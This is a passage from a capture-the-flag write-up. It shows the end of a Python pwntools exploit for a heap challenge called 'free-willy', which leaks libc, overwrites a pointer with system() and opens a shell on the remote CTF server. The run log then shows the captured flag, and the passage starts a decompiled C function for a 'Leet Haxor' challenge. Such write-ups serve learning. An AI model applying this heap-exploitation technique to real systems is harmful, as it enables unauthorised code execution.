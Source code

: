 ```python
	base = free - libc.symbols['free']
	system = base + libc.symbols['system']
	binsh  = base + next(libc.search(b'/bin/sh\x00'))
	puts = base + libc.symbols['puts']
	log.info('binsh: 0x%X' % binsh)
	log.info('base: 0x%X' % base)
	log.info('system: 0x%X' % system)
	log.info(b'system: %s' % p64(system))
	rename(1, p64(system)+p64(puts)+b'\n')
	disown(0)
	p.interactive()

if __name__ == '__main__':
	main()
```

```bash
(env3) osboxes@osboxes:~/Desktop/nctf$ python free-willy.py
[+] Opening connection to jh2i.com on port 50021: Done
[*] Heap: 0x1974260
[*] free: 0x7F184E227950
[*] binsh: 0x7F184E343E9A
[*] base: 0x7F184E190000
[*] system: 0x7F184E1DF440
[*] b'system: @\xf4\x1dN\x18\x7f\x00\x00'
[*] Switching to interactive mode
0. /bin/sh1. @\xf4N\xls
flag.txt
free-willy
$ cat flag.txt
flag{always_release_willy_after_freeing}
```

Flag: `flag{always_release_willy_after_freeing}`

## Leet Haxor

The program is simple, it encodes (or decodes) the user input, and prints it.

```c++
int __fastcall l33tify(const char *a1)
{
  int i; // [rsp+1Ch] [rbp-14h]

  for ( i = 0; i <= strlen(a1); ++i )
  {
    switch ( a1[i] )
    {
      case 'A':
      case 'a':
        a1[i] = '4';
        break;
      case 'B':
      case 'b':
        a1[i] = '8';
        break;
      case 'E':
      case 'e':
        a1[i] = '3';
        break;
      case 'G':
      case 'g':
        a1[i] = '6';
        break;
      case 'I':
```